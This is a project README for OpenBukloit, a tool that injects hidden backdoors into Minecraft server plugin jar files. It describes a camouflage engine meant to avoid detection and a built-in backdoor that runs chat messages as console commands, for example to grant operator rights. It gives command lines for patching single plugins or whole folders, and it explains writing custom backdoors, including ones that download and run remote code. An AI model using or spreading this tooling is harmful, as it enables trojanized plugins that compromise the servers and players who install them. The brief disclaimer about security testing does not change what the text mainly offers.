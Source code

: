 <div align="center"><h1>OpenBukloit - Minecraft plugin backdoor injector</h1></div>

<div align="center"><img alt="Logo" src="logo.png"/></div>

<div align="center">
    <img alt="Open issues" src="https://img.shields.io/github/issues-raw/Voxelhax/OpenBukloit"/>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/Voxelhax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-DOWNLOAD_LATEST_RELEASE_(CLICK)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**OpenBukloit** is modern and powerful universal backdoor injector compatible with all Bukkit/Spigot/Paper/etc plugins. Its feature is ability to integrate with absolutely any plugin without the need to modify backdoor every time. Moreover, it provides powerful camouflage engine, which makes nearly impossible to find it without sufficient knowledge or advanced automated tools. OpenBukloit was developed to test the security systems of Minecraft servers, VoxelHax team is not responsible for its misuse.

This is a continuation of **[Bukloit](https://github.com/Rikonardo/Bukloit)** project, taking into account all the problems of the previous project and a completely different approach to development.

## OpenBukloit features
- **Full support for Bukkit and it's forks on any Minecraft version.**
- **Custom backdoor support.**
- **Automatic JDK downloading, so you don't need to care about Java version compatibility.**
- **Powerful camouflage engine, which makes it harder to find backdoor in plugin.**

## Installation
In order to use OpenBukloit you must have any Java version installed (but not lower than 8). OpenBukloit jar can be downloaded from [releases tab](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit jar can be downloaded from releases tab. OpenBukloit does not require any additional actions, just put jar file somewhere and use it from command line.

## Usage
To run OpenBukloit, open command prompt in the directory where OpenBukloit jar is located and type:

```sh
java -jar OpenBukloit.jar
```

After jar file name you can pass some arguments to configure injector:

| Short Argument | Long Argument | Description                                                                                                                                                                  | Type  |
|----------------|---------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------|
| -e             | --exploit     | Path to custom .java or compiled .class file, that will be used as backdoor.<br />**By default uses builtin backdoor.**                                                      |
| -m             | --mode        | Mode. Can be single/multiple.<br />**Default: <ins>multiple</ins>.**<br />In multiple mode, modifies all files in the specified folder. In single - only the specified file. | Value |
| -i             | --input       | Path to input folder/file (mode dependent).<br />**Default: <ins>in</ins> (<ins>in.jar</ins> if mode is single).**                                                           | Value |
| -o             | --output      | Path to output folder/file (mode dependent).<br />**Default: <ins>out</ins> (<ins>out.jar</ins> if mode is single).**                                                        | Value |
| -r             | --replace     | Replace output file if it already exists.                                                                                                                                    | Flag  |

But these arguments are not enough to run OpenBukloit. You must also specify backdoor params. Because OpenBukloit supports injecting of custom backdoors, you must pass additional arguments that required by used backdoor.

## Builtin exploit

By default, OpenBukloit injects builtin backdoor. It is a simple backdoor that allows you to execute any commands as console by writing special keyword before command in chat.

Builtin backdoor params:

| Long Argument | Description                                       |
|---------------|---------------------------------------------------|
| --key         | Keyword, that triggers console command execution. |

Ingame usage for key set to "hackthisserver":

```
hackthisserver op MyName
```

This message sent to chat will be executed as console command and give op to MyName player.

**Here is some examples of using OpenBukloit with builtin backdoor:**

1. Patch all .jar files with the "#console" key from the "in" folder and save them into the "out" folder without replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Patch all files with the "hacktheserver" key from the "in" folder and save them into the "out" folder with replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Writing custom exploit

You can also write your own backdoor. It should be a class with `public static void inject(JavaPlugin args)` method (JavaPlugin is from Bukkit API).

Here is a simple example:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

`inject` method will be executed after plugin's `onEnable` method. You can do everything you want here, including downloading and running some arbitrary code from internet.

But you must know that there are some limitations:
- Currently, you can't use nested classes, there is must be only one class in exploit file.
- You shouldn't reference your exploit class inside it, like using it as method params, as a return value or as a field type.

You can take external params from command line, by using %placeholders%:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

And then inject it with command:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Note, that we can pass our backdoor to OpenBukloit without compiling, and it will automatically compile it with Spigot API in compiletime classpool.